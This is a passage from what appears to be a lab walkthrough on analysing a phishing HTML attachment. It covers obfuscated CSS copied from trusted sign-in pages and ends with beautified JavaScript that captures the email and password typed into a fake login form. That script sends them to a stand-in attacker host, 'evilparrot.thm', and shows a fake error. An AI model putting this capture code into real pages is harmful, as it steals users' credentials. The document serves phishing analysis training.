 The stylesheet has been run through a **CSS Obfuscator** tool. Like a minimizer, a CSS obfuscator transforms the CSS code to make it difficult to read and understand without affecting its functionality. It is typically used to protect the intellectual property of the code, making it difficult for others to copy, modify or reverse-engineer it.

Often, in the case of phishing and credential capture webpages, attackers will directly copy the CSS stylesheets from known trusted websites (think of the Google or Microsoft sign-in page). By obfuscating the copied stylesheets, it makes it harder for antivirus engines and sandboxing agents to detect the stolen stylesheet.  

This section was covered for the sake of thoroughness. However, we can effectively ignore everything before the closing `</style>` tag and add some line breaks to separate things visually.


## javascript obfuscation 

So far, we have uncovered that the attached .htm file renders an HTML login form, and an inline stylesheet is used to define the webpage's design. However, where is the login form sending its captured data? And what happens after we submit credentials? To find these answers, we must look at the final piece of this file inside the `<script>` tag.

JavaScript is often used in login forms to perform client-side form validation asynchronously and to send the user's credentials to the server for authentication. As a running theme with this file, there are some hoops we need to jump through first to make it readable. 

JavaScript Beautify

This JavaScript code has been minified, removing any unnecessary characters and whitespace. Fortunately, we can "beautify" this code by copying everything between the opening `<script>` and closing `</script>` tags, pasting it into the input of [Beautifier.io](https://beautifier.io/) and clicking **Beautify Code**. Alternatively, we can leverage [CyberChef's](https://gchq.github.io/CyberChef/) "JavaScript Beautify" operation to accomplish the same result.


We can then copy and replace the output in our file with the original JavaScript code we copied. Now that we have readable code, the author accidentally left over some verbose comments that help us understand what each statement is doing. Use this and some external JavaScript research to answer the questions below.

```js
const form = document.getElementById('login-form');
const loginButton = document.getElementById('login-button');
let errorMessage = null;
form.addEventListener('submit', event => {
	/*prevent the form from submitting normally*/
	event.preventDefault();
	/*get the username and password input values and set them to variables*/
	const email = document.getElementById('email').value;
	const password = document.getElementById('password').value;
	/*create a new HTTP request object for our evil server*/
	const xhr = new XMLHttpRequest();
	/*encode the email and password using encodeURIComponent*/
	const encodedEmail = encodeURIComponent(email);
	const encodedPassword = encodeURIComponent(password);
	/*add the encoded email and password as query parameters in the GET request*/
	const url = `http://evilparrot.thm:8080/cred-capture.php?email=${ encodedEmail }&password=${ encodedPassword }`;
	xhr.open('GET', url, true);
	/*send the GET request to the evil server*/
	xhr.send();
	if (errorMessage) {
		errorMessage.innerHTML = 'Sorry, there was an error processing your request. Please try again later.';
	} else {
		errorMessage = document.createElement('div');
		errorMessage.innerHTML = 'Sorry, there was an error processing your request. Please try again later.';
		errorMessage.style.color = 'red';
```